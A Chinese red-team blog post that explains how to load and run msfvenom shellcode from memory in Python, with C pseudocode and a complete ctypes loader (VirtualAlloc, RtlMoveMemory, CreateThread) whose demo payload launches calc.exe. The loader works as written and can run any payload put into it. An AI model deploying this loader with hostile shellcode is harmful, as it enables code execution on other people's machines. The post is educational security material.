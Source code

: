 ```yaml
---
title: Python内存加载shellcode
slug: run-shellcode-in-py
date: 2019-11-13 17:14:00
tags:
- shellcode
- 红队
- 工具
categories:
- 红队
---
```



## 生成

首先生成一个测试的msf shellcode

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f python
```

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/2cbc73b0e4018b2761dcfd1584da6661..png)


把其中的shellcode复制出来留待待会使用

## 原理

大部分脚本语言加载 shellcode 其实都是通过 `c` 的 `ffi` 去调用操作系统的api，其实并没有太多的技巧在里面，明白了原理，只需要查一下对应的脚本语言怎么调用 `c` 即可。

那么我们只需要明白 `c` 通常是怎么加载 `shellcode` 的即可一通百通。

那么 `c` 是怎么加载 `shellcode` 呢，我们直接从汇编开始探究。

`shellcode` 这个东西我们明白是一串可执行的二进制（一般可执行文件的拥有可执行权限的section为.text），那么我们先通过其他的手段开辟一片拥有可读可写可执行权限的区域放入我们的 `shellcode`，然后跳转到 `shellcode` 首地址去执行就行了，汇编里面改变eip（即当前指令的下一条即将运行指令的虚拟地址）的方法有不少，最简单的就是直接 `jmp` 过去了。也就是写成伪码大概意思就是（动态申请内存就不写了）

```assembly
lea eax, shellcode;
jmp eax;
```

那么我们用 `c` 怎么表示呢？我这里也写一段伪码（因为本文的重点并不是在于 `c` 代码的编写）

那么按照刚才的思路，先申请一块可执行的内存，放入 `shellcode` 然后跳转过去执行即可。

```c
// shellcode
unsigned char shellcode[] =
    "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9" 
    "\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"  
    "\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"  
    ...;
// 定义一个函数类型
typedef void (__stdcall *CODE) ();
// 申请内存
PVOID p = NULL;  
p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// 把shellcode放入内存
memcpy(p, shellcode, sizeof(shellcode));

CODE code =(CODE)p;

code();
```

我并没有写出一个可用的 `c` 加载 `shellcode`，只是旨在点出一下流程，然后引出后面的 `python` 加载 `shellcode`，上面我们先申请了一块带有可读可写可执行权限的内存，然后把 `shellcode` 放进去，然后我们强转为一个函数类型指针，最后调用这个函数，达到了我们的目的。



## Python实现

前面我说过，大部分脚本语言加载 `shellcode` 都是调用的c的ffi，那么我们直接按照之前的思路来就行了。下面我直接贴代码

```python
import ctypes

shellcode =  b""
shellcode += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
shellcode += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
shellcode += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
shellcode += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
shellcode += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
shellcode += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
shellcode += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
shellcode += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
shellcode += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
shellcode += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
shellcode += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
shellcode += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
shellcode += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
shellcode += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
shellcode += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
shellcode += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
shellcode += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
shellcode += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
shellcode += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
shellcode += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
shellcode += b"\x78\x65\x00"

shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
 
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr), 
    buf, 
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode防止位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0), 
    ctypes.c_int(0), 
    ctypes.c_uint64(ptr), 
    ctypes.c_int(0), 
    ctypes.c_int(0), 
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

注意其中的的每个 `c_uint64`，这个类型在64位上是必要的，我们需要手动指定 ` argtypes` 和 `restype `，否则默认的是 32 位整型。

我的代码里面加了注释，我们可以看到，基本思路也是一样的，先分配一块可读可写可执行代码的内存，在代码中，我使用的是 `0x40`（PAGE_EXECUTE_READWRITE）和 `0x3000` ( 0x1000 | 0x2000)(MEM_COMMIT | MEM_RESERVE)，然后把 `shellcode` 塞进去，跳过去运行。

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/2edf4ff180769ceee15287bfacbcde97..png)

相信通过这一片文章的讲解你能够对 `shellcode` 的本质有更多的了解。